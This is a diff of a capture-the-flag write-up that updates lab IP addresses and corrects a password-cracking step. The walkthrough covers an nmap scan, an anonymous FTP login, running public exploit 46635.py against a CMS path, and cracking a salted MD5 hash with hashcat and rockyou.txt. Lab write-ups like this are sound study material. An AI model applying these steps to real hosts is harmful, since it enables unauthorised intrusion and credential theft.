

Before and after one commit to luke-mckeever/Cyber_Vault, a Markdown page: CTF's/Simple CTF.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/CTF's/Simple CTF.md
+++ b/CTF's/Simple CTF.md
@@ -14,7 +14,7 @@ webserver: http://10.10.231.22:80
 ## (----------SCANNING---------)
 
 #### Port Scan Results
-Nmap scan report for 10.10.231.22
+Nmap scan report for 10.10.48.157
 Host is up (0.00066s latency).
 Not shown: 997 filtered ports
 PORT     STATE SERVICE VERSION
@@ -24,7 +24,7 @@ PORT     STATE SERVICE VERSION
 | ftp-syst:
 |   STAT:
 | FTP server status:
-|      Connected to ::ffff:10.10.97.62
+|      Connected to ::ffff:10.10.255.174
 |      Logged in as ftp
 |      TYPE: ASCII
 |      No session bandwidth limit
@@ -57,7 +57,7 @@ Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
 #### Trace Route Results
 TRACEROUTE
 HOP RTT     ADDRESS
-1   0.66 ms 10.10.231.22
+1   0.66 ms 10.10.48.157
 
 #### Open Ports Identified
 OPEN PORTS:
@@ -71,12 +71,12 @@ OPEN PORTS:
 Investigating the FTP server we see Anonymous FTP login allowed
 Logging in with:
 ```plaintext
-ftp 10.10.231.22
+ftp 10.10.48.157
 ```
 Results:
-Connected to 10.10.231.22.
+Connected to 10.10.48.157.
 220 (vsFTPd 3.0.3)
-Name (10.10.231.22:root):
+Name (10.10.48.157:root):
 
 Providing the username: anonymous
 230 Login successful.
@@ -205,7 +205,7 @@ Identified the script required python 2
 
 further to execute this exploit using the following command:
 ```plaintext
-python 46635.py -u http://10.10.231.22/simple
+python 46635.py -u http://10.10.48.157/simple
 ```
 
 this script will then attempt to identify the following
@@ -219,31 +219,14 @@ this will require cracking using the following command:
 hash type identified: |20|md5(\$salt.$pass)|
 
 ```bash
-hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2DDD
+hashcat -O -a 0 -m 20 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt --force
 ```
 
 Cracking the password (also providing the bypass flag) presented the following results:
 
-Session..........: hashcat
-Status...........: Bypass
-Hash.Mode........: 20 (md5($salt.$pass))
-Hash.Target......: 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2DDD
-Time.Started.....: Mon Feb 17 11:12:28 2025 (2 secs)
-Time.Estimated...: Mon Feb 17 11:12:31 2025 (1 sec)
-Kernel.Feature...: Optimized Kernel
-Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
-Guess.Queue......: 1/1 (100.00%)
-Speed.#1.........:  5040.8 kH/s (0.72ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
-Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
-Progress.........: 8775408/14344385 (61.18%)
-Rejected.........: 1776/8775408 (0.02%)
-Restore.Point....: 8775408/14344385 (61.18%)
-Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
-Candidate.Engine.: Device Generator
-Candidates.#1....: dari22232822 -> danslover1
-Hardware.Mon.#1..: Temp: 45c Util: 57%
+0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
 
-Password Identified: "danslover1"
+Password Identified: "secret"
 
 ### file results
 
````
Also changed, not shown: other parts of CTF's/Simple CTF.md (+123 -46 lines).
